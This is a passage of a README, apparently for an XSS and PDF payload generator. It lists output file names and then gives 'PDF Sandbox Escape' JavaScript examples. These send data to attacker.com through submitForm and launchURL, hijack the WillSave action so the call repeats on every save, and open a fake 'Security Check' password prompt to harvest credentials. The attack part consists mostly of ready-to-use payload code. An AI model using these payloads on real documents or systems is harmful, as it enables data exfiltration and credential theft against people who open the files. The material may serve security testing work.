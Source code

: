 ## 📁 Output Files

### PDF Files
**All generated PDF files are automatically stored in a `Files/` directory.**

The tool creates the `Files` directory automatically if it doesn't exist. Generated PDF files follow the naming convention: `xss_<type>_<timestamp>.pdf`

Examples:
- `Files/xss_alert_20240115_143022.pdf`
- `Files/xss_cookie_20240115_143025.pdf`
- `Files/xss_custom_20240115_143030.pdf`

### HTML Files
Generated HTML files follow the naming convention: `xss_test_<timestamp>.html`

Example:
- `xss_test_20240115_143035.html`

## 🎯 PDF Sandbox Escape Examples

### PDF Form Submission Escape
```javascript
// PDF-specific data exfiltration
this.submitForm({
    cURL: "http://attacker.com/collect",
    cSubmitAs: "HTML",
    cCharset: "utf-8"
});
```

### PDF URL Launching Escape
```javascript
// Escape sandbox via URL launching
app.launchURL("http://attacker.com/escape?data=" + encodeURIComponent(data), true);
```

### PDF Action Hijacking
```javascript
// Hijack document actions for persistent escape
this.setAction("WillSave", 
    "app.launchURL('http://attacker.com/save-intercept', true);"
);
```

### PDF Dialog Exploitation
```javascript
// Credential harvesting via PDF dialogs
var creds = app.response({
    cQuestion: "Enter your credentials:",
    cTitle: "Security Check",
    bPassword: true
});
```
